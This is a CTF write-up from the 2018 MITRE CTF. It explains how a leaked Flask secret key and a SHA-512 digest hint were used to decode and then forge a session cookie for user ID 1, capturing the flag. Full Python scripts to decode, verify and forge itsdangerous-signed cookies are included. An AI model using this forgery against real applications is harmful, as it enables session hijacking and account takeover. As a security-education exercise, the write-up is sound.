









<style type="text/css">
	img.screenshot {
		width:85%; 
		display: block; 
		box-shadow: 1px 1px 7px #555; 
		border-radius: 5px; 
		margin : 2.5em auto 2.5em auto; 
	}
</style>


## About MITRE CTF

The MITRE CTF is a classic Jeopardy style CTF (aka Capture The Flag) held from  April 20th to April 21th 2018 organized by MITRE Cyber Academy. As a not-for-profit organization chartered to work in the public interest, MITRE is providing a Cyber Academy to foster the education and collaboration of cyber professionals. I played with a bunch of friends under the team name BootCampNSA. 


## Writeup

### Recon

When we connect to the website, we are offered a basic homepage. The website seems to be a simple implementation based on the following Flask Application Template GitHub repo : [sloria / cookiecutter-flask](https://github.com/sloria/cookiecutter-flask)



I decided to register an account to see what it features :



Once logged in, we're presented with the following page : 



I decided to take a closer look of what exactly is passed as parameter in this request :


 
We can see a nice session token which might be the key to the challenge as no other sensitive point was discovered (I had previously tested SQLI on register form without success).

Reading a bit of [documentation](http://flask.pocoo.org/docs/0.12/quickstart/) about how Flask handle sessions I found the following :

> In addition to the request object there is also a second object called session which allows you to store information specific to a user from one request to the next. This is implemented on top of cookies for you and signs the cookies cryptographically. **What this means is that the user could look at the contents of your cookie but not modify it, unless they know the secret key used for signing.** In order to use sessions you have to set a secret key. 

Then reading a bit more I found [this interesting article](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session) where it's demonstrated how easy it is to read the content of a Flask Session Cookie.

I then tried to decode my session cookie to see what's in. Our cookie is structured the following :

`.``payload``.``timestamp``.``signature`

* The dot suffix indicates that the payload is compressed using gzip
* The payload is base64 encoded and gzipped
* Then follows the timestamp and the signature, both base64 encoded

I wrote a script (See [Sources](#decode-flask-cookie-datas)) allowing me to quickly decode the payload of the cookie and retrieved the following payload : 

```
{
'csrf_token': 'dfd25fb8ed6b692b1a072baa742c83dc9562a782', 
'_fresh': True, 
'user_id': '64', 
'_id': 'a8052de1d69e8a214af2beee5f1c991fee09c31dba096fe618cc1de796a5e63163f463959cea05874f12e024cdfeb4bc26f13165e120f239805f99d5fd610a01'
}
```

Then if I find a way to get the secret key used to sign a cookie, I would be able to forge a valid session cookie for a different user id. A little research gave me the information that Flask Session Signatures are computed with the [itsdangerous](https://pythonhosted.org/itsdangerous/) Python Module. 

Fiddling a bit with the application I found what I was looking for triggering a 404 Error Page :



Here you can see that a `MYFLASKAPP_SECRET` environment variable seems to be defined on the application's host with the value `secret-key`. Grepping the template source files available on GitHub quickly gave me a confirmation that this was indeed the key used to sign the cookies :



The first line retrieves the environment variable value and stores it for use in app.

So, I wrote a script to try to verify the signature of my session cookie to see if `secret-key` really is the valid key. To do that I inspected the Flask source code to see what kind of `itsdangerous` signer Flask was using to generate and sign the cookie. I found this information [here](https://github.com/pallets/flask/blob/0.10.1/flask/sessions.py#L272-L299). 

The signer I used is the following (See [Sources](#verify-flask-cookie) for full **valid** checker script)  : 

```python
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
from hashlib import sha1

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha1}
)
```

but surprisingly verifying my own cookie with this method indicated that its signature was invalid ! After struggling a few hours not understanding why I was facing this issue, I decided to read the challenge description again and got touched by god's blessing :

> Okay, we admit it. Rails is bad. Can you help us test our new login page written in Flask? It’s running live here. **We think its 512x better than the old one.**

Digest Method to use was not `SHA-1` but `SHA-512` ! Well play sneaky organizers ! ;-)

The only thing left was to forge a valid cookie with user id 1 (first user in database, probably admin ;-) ).

### Exploitation

To forge the cookie, I simply wrote a script in Python doing all the necessary stuffs (See [Sources](#forge-flask-cookie)) 

#### Script output



I then sent the request to Repeater in Burp, altered the cookie and BINGO : 



Here's our flag : `MCA{give_me_my_session_back}`

In the browser it looks like :  



## Sources

### <a name="decode-flask-cookie-datas"></a> Decode Flask Cookie data

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter

EXAMPLE_SESSION = '.eJwlj0FuwzAMBP-icw4iJdFiPmNQ5BINArSAnZyK_j0Get_BzP6WPQ-cX-X-Ot64lf0R5V5s1sEBClFMY-qWvACMJFelBKp6o1hWVRJC050Cm4oNSCNp2aXpUIfVMbeexKjcPRKrL2dJulYDxDW56aVL1RgZQtUqlVvx88j99fPE99UTGTxyTYQsUV5kdeNltnX22cJ1CNs2-eLeJ47_E9LL3wdmwz_i.DbwCXg.HQ1RqyWO8SVCgiL5zC-weeD3AjkdGVWTpXSl_PUyC4nnK7kvKrzX6uv1pwxWzx6VaukHjzb5Dkf8vTo3yNmHEA'

p = PrettyPrinter()

def decodeCookiePayload():
    
    if EXAMPLE_SESSION[0] == '.':
        session_payload = EXAMPLE_SESSION[1:].split('.')[0]
        p.print_good("Extracted Session datas : {}".format(session_payload))
        decoded_session_payload = base64.urlsafe_b64decode(session_payload)
        decompressed_session_payload = zlib.decompress(decoded_session_payload)
        p.print_good("Extracted decoded uncompressed datas : {} ".format(decompressed_session_payload))
        
if __name__ == '__main__':

    p.print_title("Flask Cookie Session Datas Decoder")

    # Decode
    p.print_separator(suffix="DECODING COOKIE PAYLOAD", separator='=')
    t1 = p.start_progress(task="Decoding Cookie Payload from {} ...".format(EXAMPLE_SESSION), enable_dots=False)
    decodeCookiePayload()
    p.stop_progress(t1)
```

### <a name="verify-flask-cookie"></a> Verify Flask Cookie

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter # Available here : https://github.com/terryvogelsang/cuteprint

EXAMPLE_SESSION = '.eJwlj0FuwzAMBP-icw4iJdFiPmNQ5BINArSAnZyK_j0Get_BzP6WPQ-cX-X-Ot64lf0R5V5s1sEBClFMY-qWvACMJFelBKp6o1hWVRJC050Cm4oNSCNp2aXpUIfVMbeexKjcPRKrL2dJulYDxDW56aVL1RgZQtUqlVvx88j99fPE99UTGTxyTYQsUV5kdeNltnX22cJ1CNs2-eLeJ47_E9LL3wdmwz_i.DbwCXg.HQ1RqyWO8SVCgiL5zC-weeD3AjkdGVWTpXSl_PUyC4nnK7kvKrzX6uv1pwxWzx6VaukHjzb5Dkf8vTo3yNmHEA'

p = PrettyPrinter()

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

def readAndVerifyCookie():
    try:
        session_data = signer.loads(EXAMPLE_SESSION)
        p.print_good("Correct Signature !")
        p.print_good("Session Data : {}".format(session_data))
    except BadTimeSignature:
        p.print_bad("Incorrect Signature for cookie : {}".format(EXAMPLE_SESSION))

if __name__ == '__main__':

    p.print_title("Flask Cookie Checker")

    # Decode
    p.print_separator(suffix="DECODING COOKIE", separator='=')
    t1 = p.start_progress(task="Decoding Cookie {} ...".format(EXAMPLE_SESSION), enable_dots=False)
    readAndVerifyCookie()
    p.stop_progress(t1)
```

### <a name="forge-flask-cookie"></a> Forge Flask Cookie

```python
#!/usr/bin/env python3
# encoding: utf-8

from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib
from cuteprint import PrettyPrinter # Available here : https://github.com/terryvogelsang/cuteprint

PAYLOAD = {"_fresh":True,"_id":"a8052de1d69e8a214af2beee5f1c991fee09c31dba096fe618cc1de796a5e63163f463959cea05874f12e024cdfeb4bc26f13165e120f239805f99d5fd610a01","csrf_token":"dfd25fb8ed6b692b1a072baa742c83dc9562a782","user_id":1}

p = PrettyPrinter()

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

def forgeSession():
    gen_payload = signer.dumps(PAYLOAD)
    p.print_good("Generated signed cookie : {}".format(gen_payload))

if __name__ == '__main__':

    p.print_title("Flask Cookie Forger")
    
    # Forge
    p.print_separator(suffix="FORGING COOKIE", separator='=')
    t2 = p.start_progress(task="Forge Cookie with payload {} ...".format(PAYLOAD), enable_dots=False)
    forgeSession()
    p.stop_progress(t2)
``` 

